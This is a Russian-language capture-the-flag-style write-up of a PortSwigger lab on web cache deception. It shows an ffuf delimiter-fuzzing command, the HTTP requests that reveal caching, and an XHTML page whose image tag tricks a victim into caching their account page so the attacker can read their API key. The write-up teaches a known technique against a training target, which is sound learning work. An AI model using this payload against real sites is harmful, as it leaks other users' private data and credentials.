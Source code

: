 ```yaml
---
title: "Exploiting path delimiters for web cache deception"
date: 2025-07-31
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-delimiter-discrepancies/web-cache-deception/lab-wcd-exploiting-path-delimiters"
classes: wide
---
```


Для прохождения лабы нужно найти `API`-ключи пользователя `carlos` с помощью **Web cache deception**. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

```
https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/
```

## Solution

Залогинюсь в аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/1.png){: height="200" .align-center}

Аккаунт находится по следующему пути — `/my-account`. Добавлю строчку `bar` для проверки, выдаст ли мне ту же страницу.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/2.png){: height="200" .align-center}

Ожидаемо, что нет. Попробую перебрать  [список разделителей](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list), чтобы понять, какие из них подойдут. Для разнообразия воспользуюсь [`ffuf`](https://cu63.github.io/tools/ffuf/).

```bash
ffuf -w wordlists/webcache_delimeters.txt -u https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-accountFUZZbar -X GET
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/3.png){: height="200" .align-center}

Предположу, что эти символы являются разделителями. Наиболее подходящим выглядит `;`. Использую его:

```
https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;bar
```

Получил ту же страницу ответа. Добавлю расширение `.css`, чтобы проверить, будет ли ответ кэшироваться. Для этого удобнее смотреть `Burp Suite`.

```http
GET /my-account;bar.css HTTP/2
Host: 0a750077032ed4f682a6e83000eb0023.web-security-academy.net
Cookie: session=qqr2NcH61DjJaM74YK4er7ewvpoSuduN
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Заголовок ответа:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Server: Apache-Coyote/1.1
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3833
```

Вижу в ответе `X-Cache: miss` и `Cache-Control`. Значит `.css` файлы кэшируются. Перейду в эксплойт сервер для создания нагрузки.

Так как я занимаюсь разработкой фишинговых нагрузок на работе, то мне не хочется использовать только `.html` и `.js` форматы. Поэтому вот вам немного флекса с `XHTML`:

```xhtml
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Payload</title>
</head>
<body>
    <img src="https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;pwned.css" alt="Pwn" />
</body>
</html>
```

При открытии файла происходит обращение по адресу `https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;pwned.css` для получения картинки. Но что-то идет не так, и данные пользователя кэшируются. Вот незадача. Файл называют `expoit.xhtml`, в `Content-Type` выставляю значение `application/xhtml+xml`. На сайте это выглядит вот так:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/4.png){: height="200" .align-center}

Отправляю запрос и проверяю страницу:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/5.png){: height="200" .align-center}

`API`-ключ получен. Проверю его в верификаторе:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/6.png){: height="200" .align-center}

